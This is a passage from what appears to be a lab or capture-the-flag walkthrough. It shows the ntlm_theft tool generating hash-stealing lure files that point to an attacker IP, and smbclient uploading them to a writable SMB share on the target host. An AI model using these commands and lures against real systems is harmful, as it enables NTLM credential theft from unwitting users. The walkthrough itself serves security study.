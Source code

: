 Lets now use https://github.com/Greenwolf/ntlm_theft to genrate more payloads and see if any of these can get loaded. 

```
┌──(ryan㉿kali)-[/opt/ntlm_theft]
└─$ sudo python ntlm_theft.py -g all -s 10.10.14.60 -f click_me
Created: click_me/click_me.scf (BROWSE TO FOLDER)
Created: click_me/click_me-(url).url (BROWSE TO FOLDER)
Created: click_me/click_me-(icon).url (BROWSE TO FOLDER)
Created: click_me/click_me.lnk (BROWSE TO FOLDER)
Created: click_me/click_me.rtf (OPEN)
Created: click_me/click_me-(stylesheet).xml (OPEN)
Created: click_me/click_me-(fulldocx).xml (OPEN)
Created: click_me/click_me.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: click_me/click_me-(includepicture).docx (OPEN)
Created: click_me/click_me-(remotetemplate).docx (OPEN)
Created: click_me/click_me-(frameset).docx (OPEN)
Created: click_me/click_me-(externalcell).xlsx (OPEN)
Created: click_me/click_me.wax (OPEN)
Created: click_me/click_me.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: click_me/click_me.asx (OPEN)
Created: click_me/click_me.jnlp (OPEN)
Created: click_me/click_me.application (DOWNLOAD AND OPEN)
Created: click_me/click_me.pdf (OPEN AND ALLOW)
Created: click_me/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: click_me/Autorun.inf (BROWSE TO FOLDER)
Created: click_me/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

Once I've generated the payloads I can load them all into the share and cross my fingers one gets through and gets clicked on:

```
┌──(ryan㉿kali)-[/opt/ntlm_theft/click_me]
└─$ smbclient //10.10.11.187/Shared -U S.Moon
Password for [WORKGROUP\S.Moon]:
Try "help" to get a list of possible commands.
smb: \> prompt false
smb: \> mput *
NT_STATUS_ACCESS_DENIED opening remote file \click_me.pdf
NT_STATUS_ACCESS_DENIED opening remote file \click_me.rtf
NT_STATUS_ACCESS_DENIED opening remote file \click_me-(icon).url
putting file desktop.ini as \desktop.ini (0.1 kb/s) (average 0.1 kb/s)
putting file click_me.application as \click_me.application (8.1 kb/s) (average 2.9 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \click_me.m3u
NT_STATUS_ACCESS_DENIED opening remote file \click_me.wax
NT_STATUS_ACCESS_DENIED opening remote file \click_me-(remotetemplate).docx
putting file click_me.jnlp as \click_me.jnlp (0.9 kb/s) (average 2.3 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \click_me.lnk
NT_STATUS_ACCESS_DENIED opening remote file \click_me-(includepicture).docx
NT_STATUS_ACCESS_DENIED opening remote file \click_me-(externalcell).xlsx
putting file click_me-(fulldocx).xml as \click_me-(fulldocx).xml (129.1 kb/s) (average 54.4 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \click_me.scf
NT_STATUS_ACCESS_DENIED opening remote file \click_me.asx
NT_STATUS_ACCESS_DENIED opening remote file \Autorun.inf
NT_STATUS_ACCESS_DENIED opening remote file \click_me-(frameset).docx
NT_STATUS_ACCESS_DENIED opening remote file \click_me-(url).url
NT_STATUS_ACCESS_DENIED opening remote file \click_me.htm
NT_STATUS_ACCESS_DENIED opening remote file \zoom-attack-instructions.txt
putting file click_me-(stylesheet).xml as \click_me-(stylesheet).xml (0.8 kb/s) (average 47.5 kb/s)
smb: \> ls
  .                                   D        0  Sat Feb 10 19:42:16 2024
  ..                                  D        0  Sat Feb 10 19:42:16 2024
  click_me-(fulldocx).xml             A    72585  Sat Feb 10 19:42:15 2024
```
